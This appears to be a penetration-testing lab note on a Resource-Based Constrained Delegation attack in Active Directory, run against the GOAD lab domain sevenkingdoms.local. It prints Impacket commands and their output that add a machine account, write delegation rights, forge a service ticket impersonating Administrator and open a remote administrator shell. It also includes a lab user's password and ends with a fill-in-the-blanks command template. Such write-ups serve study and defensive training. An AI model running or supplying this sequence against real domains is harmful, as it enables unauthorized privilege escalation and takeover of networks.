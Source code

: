 **Resource-Based Constrained Delegation (RBCD)** is a delegation method in Active Directory environments where control over delegation is assigned to the resource. It works by allowing a resource (like a server) to specify which accounts can impersonate users to access that resource using their Kerberos tickets (TGS—Ticket Granting Service).

If a user has GenericAll/GenericWrite over a host, RBCD is possible

![[Pasted image 20241109135409.png]]

### User

- stannis.baratheon@sevenkingdoms.local:Drag0nst0ne

### The Attack

First, we need to add a computer account:

```bash
garffff@garffff:~/GOAD$ addcomputer.py -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-ip 192.168.56.10 sevenkingdoms.local/stannis.baratheon:Drag0nst0ne
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account rbcd$ with password rbcdpass.
```

Next, is to add the delegation access:

```bash
garffff@garffff:~/GOAD$ rbcd.py -delegate-from 'rbcd$' -delegate-to 'kingslanding$' -dc-ip 192.168.56.10 -action 'write' sevenkingdoms.local/stannis.baratheon:Drag0nst0ne
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] rbcd$ can now impersonate users on kingslanding$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     rbcd$        (S-1-5-21-2059722235-425686273-3516464344-1127)
```

We can now impersonate the target user by requesting a TGS:

```bash
garffff@garffff:~/GOAD/v1$ getST.py -spn 'cifs/kingslanding.sevenkingdoms.local' -impersonate Administrator -dc-ip 192.168.56.10 'sevenkingdoms.local/rbcd$:rbcdpass'
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache```

Load the ticket:

```bash
garffff@garffff:~/GOAD/v1$ export KRB5CCNAME=Administrator.ccache
```

Access the target host (DNS is required):

```bash
garffff@garffff:~/GOAD/v1$ wmiexec.py -k -no-pass kingslanding.sevenkingdoms.local
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
sevenkingdoms\administrator
```

### Summary

```bash
addcomputer.py -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-ip <dc_ip> '<domain>/<user>:<password>
rbcd.py -delegate-from 'rbcd$' -delegate-to '<target_computer>' -dc-ip <dc_ip> -action 'write' '<domain>/<user>:<password>
getST.py -spn 'cifs/<target_computer>.<domain>' -impersonate <target_user> -dc-ip <dc_ip> '<domain>/rbcd$:rbcdpass'
export KRB5CCNAME=<target_user>.ccache
wmiexec.py -k -no-pass <target_computer>.>domain>
```